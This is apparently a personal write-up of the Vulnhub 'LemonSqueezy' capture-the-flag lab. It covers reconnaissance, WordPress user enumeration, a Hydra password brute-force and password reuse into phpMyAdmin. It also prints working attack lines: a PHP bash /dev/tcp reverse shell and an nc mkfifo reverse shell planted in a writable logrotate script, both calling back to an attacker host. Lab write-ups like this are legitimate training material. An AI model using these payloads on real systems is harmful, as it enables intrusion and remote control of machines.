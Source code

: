 # Vulnhub "LemonSqueezy" Writeup by XMBomb

Same thing as we do every night, take over the wo... eh ports!
![](same-thing.gif)
```bash
# Nmap 7.91 scan initiated Fri Dec 18 10:20:01 2020 as: nmap -v -sC -sV -Pn -oN nmap 192.168.1.249
Nmap scan report for 192.168.1.249
Host is up (0.0013s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Dec 18 10:20:13 2020 -- 1 IP address (1 host up) scanned in 12.50 seconds
```

The report shoes that only port 80(http) seems to be open
![](2020-12-18-10-26-05.png)
Visiting it, shows us a default debian apache page. This can be an indication that we are not using the correct hostname (vhost), but let's explore further.

I ran a gobuster on the site.
```bash
kali@kali:~/vulnhub/boxes/LemonSqueezy$ gobuster dir -u http://lemonsqueezy -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://lemonsqueezy
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/12/18 10:24:35 Starting gobuster
===============================================================
/wordpress (Status: 301)
/manual (Status: 301)
/javascript (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
===============================================================
2020/12/18 10:25:23 Finished
===============================================================
```
`/wordpress/` is definitely interesting, let's see what's on there
![](2020-12-18-10-25-46.png)

```
wpscan --url http://192.168.1.249/wordpress/ > wpscan.log

[+] Upload directory has listing enabled: http://192.168.1.249/wordpress/wp-content/uploads/                                                                                                                                                                                                                                 
 | Found By: Direct Access (Aggressive Detection)                                                                                                                                                                                                                                                                            
 | Confidence: 100%
```
Upload directory could have some interesting files 
http://192.168.1.249/wordpress/wp-content/uploads/

But not in this case unfortunately
For this machine I learned a bit more about wpscan, for example user enumeration:
```
wpscan --url http://192.168.1.249/wordpress/ -e u
[+] orange
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] lemon
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

Let's do a login with a wrong password and check out the POST request in Burp:
```
POST /wordpress/wp-login.php HTTP/1.1
Host: lemonsqueezy
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://lemonsqueezy/wordpress/wp-login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
Origin: http://lemonsqueezy
Connection: close
Cookie: comment_author_2941158bd0cbcb980cbef138a86b1b99=test+%7B%7B+5+%2A+5+%7D%7D; comment_author_email_2941158bd0cbcb980cbef138a86b1b99=test%40test.com; wordpress_test_cookie=WP+Cookie+check
Upgrade-Insecure-Requests: 1

log=orange&pwd=password&wp-submit=Log+In&redirect_to=http%3A%2F%2Flemonsqueezy%2Fwordpress%2Fwp-admin%2F&testcookie=1
```

It does not look like WP does any way of blocking authentication attempts, so we can try to bruteforce the users password.
https://linuxconfig.org/test-wordpress-logins-with-hydra-on-kali-linux

```bash
kali@kali:~/vulnhub/boxes/LemonSqueezy$ hydra lemonsqueezy -L users.txt -P /home/kali/htb/rockyou.txt http-post-form "/wordpress/wp-login.php/:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-12-18 11:16:19
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688796 login tries (l:2/p:14344398), ~1793050 tries per task
[DATA] attacking http-post-form://lemonsqueezy:80/wordpress/wp-login.php/:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location
[80][http-post-form] host: lemonsqueezy   login: orange   password: <snip>
```

looks like it actually found a password for the user `orange`, we can log into wp-admin with that.
The users has an interesting draft:
![](2020-12-18-11-18-39.png)

From the discovery we know there is a /phpmyadmin, let's try loggin in with `root` and the password we discovered
![](2020-12-18-11-19-49.png)

![](2020-12-18-11-23-25.png)
Looking around we can see that the orange user is actually not an admin, but the 'lemon' user is.
I tried decrypting the hash, but it did not really succeed within a reasonable time frame,
![](2020-12-18-11-25-09.png)

An easy option is just to change the password to the same one as orange
This allows us to log in with admin privileges
![](2020-12-18-11-34-38.png)

A wordpress admin has the possibility to upload plugins, we can use this to craft a malicious plugin, which will execute a reverse shell
Source: https://www.sevenlayers.com/index.php/179-wordpress-plugin-reverse-shell

So I created a small php reverse shell, and zipped it to be a valid plugin
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.1.241/1234 0>&1'");
?>
zip plugin.zip plugin.php
```
After trying a bunch of options, it became evident that the target was hardened against this type of attack.
![](2020-12-18-11-48-31.png)

Just to be sure this was the case, I fired uf `msfconsole` and rand the exploit via metasploit:
![](2020-12-18-11-49-04.png)


But there is another way we can exploit this, by writing malicious PHP code to a file accessible by the server (and user)
![](2020-12-18-11-50-31.png)
![](2020-12-18-11-51-39.png)
![](2020-12-18-11-55-34.png)
Execute the reverse shell command via a GET request, and get a shell!
![](2020-12-18-11-55-43.png)

Let's add some quality of life features
```bash
python -c "import pty;pty.spawn('/bin/bash')"
crtl-z
stty raw -echo
fg
```
I transferred linPEAS via wget and looked at the list of users
![](2020-12-18-12-01-56.png)

This section seemed to be the most interesting one:
```
[+] Readable files belonging to root and readable by me but not world readable                                                                                │
-rw-r----- 1 root www-data 68 Apr 13  2020 /var/lib/phpmyadmin/blowfish_secret.inc.php                                                                        │
-rw-r----- 1 root www-data 0 Apr 13  2020 /var/lib/phpmyadmin/config.inc.php                                                                                  │
-rw-r----- 1 root www-data 505 Apr 13  2020 /etc/phpmyadmin/config-db.php                                                                                     │
-rw-r----- 1 root www-data 8 Apr 13  2020 /etc/phpmyadmin/htpasswd.setup
```
Looking at the permissions, we are allowed to write to /etc/logrotate.d/logrotate
```bash

html/wordpress$ ls -lah /etc/logrotate.d/logrotate
-rwxrwxrwx 1 root root 101 Apr 26  2020 /etc/logrotate.d/logrotate 

chown root:root logrotate
chmod 677 logrotate

www/html/wordpress$ cat /etc/logrotate.d/logrotate
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.241 1234 >/tmp/f
```
![](2020-12-18-19-48-21.png)

